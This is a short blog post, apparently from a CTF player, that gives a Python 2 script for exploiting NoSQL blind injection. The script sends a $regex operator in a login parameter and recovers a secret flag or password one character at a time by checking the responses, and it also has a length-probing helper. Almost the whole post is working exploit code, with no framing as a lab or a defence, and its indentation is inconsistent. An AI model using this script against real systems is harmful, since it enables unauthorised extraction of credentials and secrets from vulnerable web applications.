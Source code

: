 ```yaml
---
layout: post
title:  "No-SQL-Blind Injection script !"
date:   2017-01-30 14:45:00 +0100
categories: jekyll update
---
```


Here is a little script to exploit nosql blind injections

{% highlight python %}

#!/usr/bin/env python2

import urllib2
import time

def checkIfGood(param):
    response = urllib2.urlopen("http://www.vulnerable-site.com/index.php?name=user&pass[$regex]=" + param).read()
	print "[^]Trying " + param
	time.sleep(0.1)
	if response.find("This is not a valid flag") == -1:
		return (0)
	return (1)
							
CHARSET = "0123456789azertyuiopqsdfghjklmwxcvbnAZERTYUIOPQSDFGHJKLMWXCVBN@-_."

def main():
	i = 0
	tmp = ""
	while i < len(CHARSET):
		tmp += CHARSET[i]
		if checkIfGood(tmp + '.' + '{' + str(21 - len(tmp)) + '}') == 1: # 21 = len(nb_chars)
			tmp = tmp[:-1]
		else:
			i = -1
		i = i + 1
																								
def check_nb_chars():
	i = 0
	while i < 100:
		if checkIfGood(".{" + str(i) + "}") == 0:
			print "OK : " + str(i)
		i = i + 1

#check_nb_chars()
main()
{% endhighlight %}
